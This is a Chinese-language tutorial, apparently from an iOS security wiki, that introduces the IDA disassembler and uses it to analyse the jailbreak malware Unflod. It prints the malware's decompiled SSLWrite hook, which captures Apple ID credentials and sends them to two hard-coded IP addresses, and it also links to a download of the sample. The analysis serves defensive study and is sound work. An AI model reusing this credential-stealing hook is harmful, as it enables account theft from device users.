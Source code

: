 [IDA](https://www.hex-rays.com/products/ida/index.shtml)是一个非常强大的反汇编和调试工具，支持Windows,Linux, Mac OS X平台，它支持太多的功能了，以至于其作者都不能在官方网站上对其进行详细的描述。

正式版本是需要收费的，正因为其功能强大，收费也非常贵。不过，它有试用版本可以下载，从[这](https://www.hex-rays.com/products/ida/support/download.shtml)找到[IDA demo download](https://www.hex-rays.com/products/ida/support/download_demo.shtml)，选择下载[IDA Demo 6.5 for Mac](http://out7.hex-rays.com/files/idademo65_mac.tgz)。

下载之后解压并运行，出现如下的示意图：

![](https://farm4.staticflickr.com/3808/14099831478_1b120a64ea.jpg)

过几秒会马上提示是否同意IDA协议，点击"agree"：

![](https://farm6.staticflickr.com/5592/14283147661_e59a264bf2_z.jpg)

然后会出现Quick Start，如下图：

![](https://farm3.staticflickr.com/2926/14283147801_1141f5958b_z.jpg)

选择其中的“New”，然后根据提示选择你需要分析的文件，就可以体验IDA的功能了。




###使用IDA分析iOS恶意软件Unflod

tdvx在Reddit上发帖说：从上周起，他用Snapchat和Google Hangouts的使用经常遇到crash，经过排查，他发现是下面这个可疑文件导致的：

    /Library/MobileSubstrate/DynamicLibraries/Unflod.dylib


这个恶意文件位于：/Library/MobileSubstrate/DynamicLibraries/Unflod.dylib或者framework.dylib。依赖于MobileSubstrate，只在越狱设备上起作用。



从[http://deev.es/9xq1](http://deev.es/9xq1)可以下载改恶意代码的样本，下载需谨慎操作。

下载到本地之后，用IDA打开，打开会出现如下图的提示，点击确定即可。

![](https://farm3.staticflickr.com/2901/14306659623_638b0ab9dd_b.jpg)

如果你觉得默认的字体太小，可以选择Option中的字体，在最右边的Size这一列修改。如下图所示：

![](https://farm4.staticflickr.com/3748/14263353696_1311933417_b.jpg)

其中一个API叫做replace_SSLWrite，如下图所示：

![](https://farm6.staticflickr.com/5273/14099796869_0991dbbd2f_b.jpg)
![](https://farm3.staticflickr.com/2903/14099916307_3ea5557be0_b.jpg)


使用IDA的插件F5一下，可以得到如下的代码：




    ｀int __fastcall replace_SSLWrite(int a1, char *a2, int a3, int a4)
     {
     ......
     
     if ( !findhead )
      {
        v19 = strstr(v22, "/WebObjects/MZFinance.woa/wa/authenticate HTTP/1.1");
        if ( v19 )
        {
          findhead = 1;
          strcpy(content, v22);
        }
      }
      if ( findhead == 1 )
      {
        v18 = strstr(v22, "<key>appleId</key>");
        v17 = strstr(v22, "<key>password</key>");
        if ( v18 )
        {
          if ( v17 )
          {
            strcat(content, v22);
            v16 = strstr(content, "</plist>");
            if ( v16 && v16 - content <= 2040 )
              v16[8] = 0;
            v14 = 0;
            v15 = socket(2, 1, 0);
            if ( v15 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v13.sa_family = 2;
            *(_WORD *)&v13.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v13.sa_data[2] = inet_addr("23.88.10.4");
            if ( connect(v15, &v13, 0x10u) < 0 )
            {
              close(v15);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v5 = v15;
            v6 = strlen(content);
            v14 = write(v5, content, v6);
            v11 = 0;
            close(v15);
            v12 = socket(2, 1, 0);
            if ( v12 < 0 )
            {
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v10.sa_family = 2;
            *(_WORD *)&v10.sa_data[0] = 0xC61Eu;
            *(_DWORD *)&v10.sa_data[2] = inet_addr("23.228.204.55");
            if ( connect(v12, &v10, 0x10u) < 0 )
            {
              close(v12);
              v24 = pSSLWrite(v23, v22, v21, v20);
              goto LABEL_20;
            }
            v7 = v12;
            v8 = strlen(content);
            v11 = write(v7, content, v8);
            close(v12);
            findhead = 2;
          }
        }
      }
      v24 = pSSLWrite(v23, v22, v21, v20);
    LABEL_20:
      if ( __stack_chk_guard != v25 )
        __stack_chk_fail(__stack_chk_guard, v24, v25, v4);
      return v24;
    }
    
    
    
    
   
   
 这个恶意代码通过 Hook Security.framework的SSLWrite方法（Hook函数为replace_SSLWrite），截取Apple id和密码，然后把这些信息发送到IP为23.88.10.4、3.228.204.55，端口为7878的服务器。（端口为7878，也就是上面的0xC61Eu。注意，这里是big endian模式。所以，端口其实是0x1EC6,即7878。）
 
 
 这个恶意软件被iPhone开发者证书签名。签名信息如下：

    $ codesign -vvvv -d Unflod.dylib
    Executable=./Unflod.dylib
    Identifier=com.your.framework
    Format=Mach-O thin (armv7)
    CodeDirectory v=20100 size=227 flags=0x0(none) hashes=3+5 location=embedded
    Hash type=sha1 size=20
    CDHash=da792624675e82b3460b426f869fbe718abea3f9
    Signature size=4322
    Authority=iPhone Developer: WANG XIN (P5KFURM8M8)
    Authority=Apple Worldwide Developer Relations Certification Authority
    Authority=Apple Root CA
    Signed Time=14 Feb 2014 04:32:58
    Info.plist=not bound
    Sealed Resources=none
    Internal requirements count=2 size=484
    
需要注意的是，**这并不表示这个人就是这个事情的始作俑者**。这个人可能是假冒的，也可能是其证书被偷窃，也可能是真正涉及到这个事情，但是，我们没有办法知道，但是，苹果需要调查这个事情。


####解决方法

如果你的设备上有Unflod.dylib/framework.dylib这两个文件，把其删掉，然后重新设置Apple id和密码就可以了。


###关于IDA的F5

IDA 中有一个插件Hex-Rays.Decompiler，其快捷键是F5，该插件可以轻易的把IDA中的汇编代码转成C代码，如上面的replace_SSLWrite所示，即使没有一点汇编基础的人都可以反汇编了。这个功能太强大，大家就把使用这个插件把汇编转成C代码的过程叫做F5一下。

请注意，F5插件是需要花钱买的，上面转成的代码，是别人转的，使用今天下载的试用版本，是没有F5这个功能的，这也可以理解，否则很多人应该都没必要去花钱买正式版本了。

####The IDA Pro book

它功能太强大，都可以写一本书专门来介绍它，事实上，确实存在这么一本书[The IDA Pro book, 2nd edition](http://idabook.com/index.html), 这本书有中文翻译[IDA Pro权威指南（第2版）](http://book.douban.com/subject/10463039/)


###小结

本节简要介绍了如何下载是使用IDA，更强大的功能需要渎职自己去探索，有兴趣的话可以找下文中提到的The IDA Pro book这本书读读，然后实践下。






 
 














***
[#3 Mac上需要安装的工具下的更多文章](http://security.ios-wiki.com/issue-3/)